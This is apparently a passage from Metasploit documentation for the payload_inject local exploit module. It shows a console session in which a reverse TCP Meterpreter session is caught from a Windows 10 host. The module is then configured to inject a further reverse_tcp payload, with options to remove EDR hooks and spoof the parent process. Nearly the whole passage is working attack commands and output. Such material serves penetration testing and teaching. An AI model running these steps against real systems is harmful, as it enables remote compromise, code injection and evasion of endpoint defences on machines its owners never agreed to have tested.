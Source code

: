 ## Scenarios
### Windows 10x64 Build 17134 No PID
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.135.168:5555
WARNING: Local file /home/tmoose/rapid7/metasploit-framework/data/meterpreter/metsrv.x64.dll is being used
WARNING: Local files may be incompatible with the Metasploit Framework
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 1 opened (192.168.135.168:5555 -> 192.168.132.125:49673) at 2020-01-22 13:10:13 -0600
WARNING: Local file /home/tmoose/rapid7/metasploit-framework/data/meterpreter/ext_server_stdapi.x64.dll is being used
WARNING: Local file /home/tmoose/rapid7/metasploit-framework/data/meterpreter/ext_server_priv.x64.dll is being used

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/payload_inject
msf5 exploit(windows/local/payload_inject) > show options

Module options (exploit/windows/local/payload_inject):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   AUTOUNHOOK   false            no        Auto remove EDRs hooks
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process
   PPID         0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   SESSION                       yes       The session to run this module on.
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf5 exploit(windows/local/payload_inject) > set session 1
session => 1
msf5 exploit(windows/local/payload_inject) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/payload_inject) > set lhost 192.168.135.168
lhost => 192.168.135.168
msf5 exploit(windows/local/payload_inject) > show options

Module options (exploit/windows/local/payload_inject):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
```